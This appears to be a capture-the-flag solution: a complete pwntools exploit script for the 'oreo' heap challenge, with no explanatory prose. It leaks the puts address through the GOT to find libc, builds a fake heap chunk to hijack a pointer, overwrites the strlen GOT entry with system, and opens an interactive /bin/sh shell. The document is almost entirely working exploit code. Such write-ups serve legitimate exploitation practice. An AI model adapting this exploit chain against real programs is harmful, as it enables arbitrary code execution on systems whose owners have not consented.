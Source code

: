 #### EXP

```python
from pwn import *

context(arch='i386', os='linux', log_level='debug')

r = process('/home/h3rmesk1t/oreo')
elf = ELF('/home/h3rmesk1t/oreo')
libc = ELF('/home/h3rmesk1t/libc.so.6')

def add_rifle(name, description):
    r.sendline(b'1')
    r.sendline(name)
    r.sendline(description)

def show_rifle():
    r.sendline(b'2')
    r.recvuntil(b'===================================\n')

def order_rifle():
    r.sendline(b'3')

def level_message(message):
    r.sendline(b'4')
    r.sendline(message)


name = b'a' * 27 + p32(elf.got['puts'])
description = b'b' * 25
add_rifle(name, description)
show_rifle()

r.recvuntil(b'Description: ')
r.recvuntil(b'Description: ')

puts_addr = u32(r.recvuntil('\n', drop=True)[:4])
log.success('puts address: ' + hex(puts_addr))
libc_base = puts_addr - libc.symbols['puts']
sys_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

num = 1
while num < 0x3f:
    add_rifle(b'a' * 27 + p32(0), b'b' * 25)
    num += 1
payload = b'a' * 27 + p32(0x804A2A8)
add_rifle(payload, b'b' * 25)

payload = b'\x00' * 0x20 + p32(40) + p32(0x100)
payload = payload.ljust(52, b'a')
payload += p32(0)
payload = payload.ljust(128, b'a')
level_message(payload)
order_rifle()

payload = p32(elf.got['strlen']).ljust(20, b'a')
add_rifle(b'a' * 20, payload)
# gdb.attach(r)
log.success('system addr: ' + hex(sys_addr))
# gdb.attach(r)
level_message(p32(sys_addr) + b';/bin/sh\x00')

r.interactive()
```